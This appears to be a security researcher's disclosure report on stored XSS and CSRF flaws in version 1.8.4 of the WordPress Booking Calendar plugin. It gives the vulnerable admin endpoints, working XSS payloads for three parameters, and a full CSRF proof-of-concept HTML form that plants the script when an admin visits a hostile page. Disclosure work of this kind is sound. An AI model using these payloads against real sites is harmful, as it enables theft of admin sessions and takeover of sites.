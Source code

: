 Well ,sir ,I just found Stored-XSS bugs and a CSRF bug here.

#### ADLab of Venustech

The report link to the wordpress-form is missing, because the manager do not wish to put the public in danger ,I'll just write some details here.

#### Stored-XSS

##### Stored-XSS at extras

When the user click the "Extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-extras
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
extra_field1[items][field_item1][price_percent]=\"><img src=x onerror=console.log(/xss/)><\"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/extra-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/extras-xss2.png)



##### Stored-XSS at themes

When the user click the "Themes" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-themes
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
sale_conditions[count][]='"><svg/onload=console.log(/xss2/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/themes-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/themes-xss2.png)


##### Stored-XSS at forms

When the user click the "Forms" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
form_field5[label]=Message'"><svg/onload=console.log(/xss3/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/form-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/booking-calendar/form-xss2.png)

#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms" method="POST">
      <input type="hidden" name="title" value="test123" />
      <input type="hidden" name="save" value="Save" />
      <input type="hidden" name="form&#95;field3&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field3&#91;name&#93;" value="form&#95;field3" />
      <input type="hidden" name="form&#95;field3&#91;label&#93;" value="Email" />
      <input type="hidden" name="form&#95;field3&#91;isemail&#93;" value="on" />
      <input type="hidden" name="form&#95;field4&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field4&#91;name&#93;" value="form&#95;field4" />
      <input type="hidden" name="form&#95;field4&#91;label&#93;" value="Phone" />
      <input type="hidden" name="form&#95;field5&#91;type&#93;" value="textarea" />
      <input type="hidden" name="form&#95;field5&#91;name&#93;" value="form&#95;field5" />
      <input type="hidden" name="form&#95;field5&#91;label&#93;" value="Message&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="task" value="save" />
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the other user could be cheated to visit my evil html on my site, or I just a low privilege role to edit something in the shared page, I can get other users' cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin booking-calendar v1.84.

Download link:
```
https://downloads.wordpress.org/plugin/booking-calendar.1.8.4.zip
```
